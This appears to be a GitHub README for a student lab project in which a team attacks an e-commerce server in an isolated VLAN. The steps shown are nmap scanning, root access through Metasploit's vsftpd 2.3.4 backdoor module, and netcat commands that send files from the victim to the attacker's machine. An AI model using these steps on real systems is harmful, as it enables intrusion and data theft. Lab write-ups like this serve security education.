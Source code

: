 # Network-Security

In this project I and other team members attacked a server using various security tools and tactics. Through this project, we learned how security breaches occur and how to defend systems and networks.

During this endeavor we used two virtual machines in a VLAN. The first was a Kali box and the second was an ecommerce server. Using Kali, we attacked the server and tested its defense mechanisms. While completing the exercise, we were to assume that the e-commerce server was not visible and therefore we did not attempt to log in.

## Injection Number 1

In injection one we were tasked with creating a security policy and introducing the team to the instructor. The security policy and team introduction we wrote can be found here: https://github.com/TristanJRogers/Network-Security/blob/main/Injection%201.docx 

## Injection Number 2

In injection two the team and I were tasked with the following. 

1. Scan the network to find find the IP address of the e-commerce server
2. Scan the e-commerce server and detect the version of the services that were running

For task 1 the team and I used NMAP to scan the entire subnet. In the picture below you will see a hit for 192.168.1.1 which was most likely a router and a hit for 192.168.1.220. We were able to identify 192.168.1.220 as the e-commerce server due to port 80 and port 3306 being open along with the url given in the scan.

![image](https://github.com/user-attachments/assets/22d9fa04-afaa-47dc-bad0-0d3e0be807d4)

For task 2 we used the command nmap -sV on the e-commerce servers IP to display the version of all services open on the e-commerce server. 

![image](https://github.com/user-attachments/assets/0e3b9e18-2af9-4d05-b8a8-42ea459a58e7)

## Injection Number 3

In injection three the team was tasked with breaking into the server using Metasploit

Using the versions of services running on the e-commerce server, we saw that the FTP service it was running had a backdoor vulnerability. We used the (unix/ftp/vsftpd_234_backdoor) exploit on the e-commerce server and were able to gain a access. 

![image](https://github.com/user-attachments/assets/1c4a3094-ca7b-4c50-9f62-5a347c6a85c9)

Finally, to prove we had root access we used the commands whoami, id, pwd, and ls. See the output below. 

![image](https://github.com/user-attachments/assets/1c4ddbf0-5961-4f41-ba46-b0869da00cff)

## Injection Number 4

In injection number four we were tasked with tasked with transferring three files in from the e-commerce server to our kali machine via Netcat. 

We used the command "nc -v 192.168.1.7 69 <insert file name>" on the ecommerce server and command nc-v -l -p69 > <insert file name> on the kali machine

E-commerce server

![image](https://github.com/user-attachments/assets/28e2c63e-8225-42e2-807c-e403169fb9f2)

Kali machine

![image](https://github.com/user-attachments/assets/d6e0b2df-d472-4d74-ab7b-aa38863df461)

For the final results you will see that in the screenshot below, the files were successfully transferred to our kali machine. 

![image](https://github.com/user-attachments/assets/0585b8fc-a4f7-4c6a-97e5-13a897a44ac0)











